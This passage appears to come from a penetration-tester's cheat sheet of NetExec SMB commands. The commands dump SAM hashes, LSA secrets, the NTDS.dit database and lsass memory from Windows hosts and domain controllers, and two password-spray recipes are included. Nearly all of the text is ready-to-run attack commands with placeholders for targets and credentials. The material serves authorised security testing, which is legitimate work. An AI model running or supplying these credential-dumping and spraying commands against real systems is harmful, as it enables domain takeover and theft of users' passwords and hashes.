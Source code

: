 ```bash
nxc smb <ip> -u <user> -p <password> -d <domain> --sam
```

## nxc - Dump LSA
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## nxc - dump ntds.dit
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## nxc - dump lsass
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## nxc - dump lsass - with bloodhond update
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## nxc - password spray (user=password)
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
nxc smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## nxc - password spray multiple test 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(careful on lockout)

```bash
nxc smb <dc-ip> -u <user.txt> -p <password.txt> --continue-on-success
```

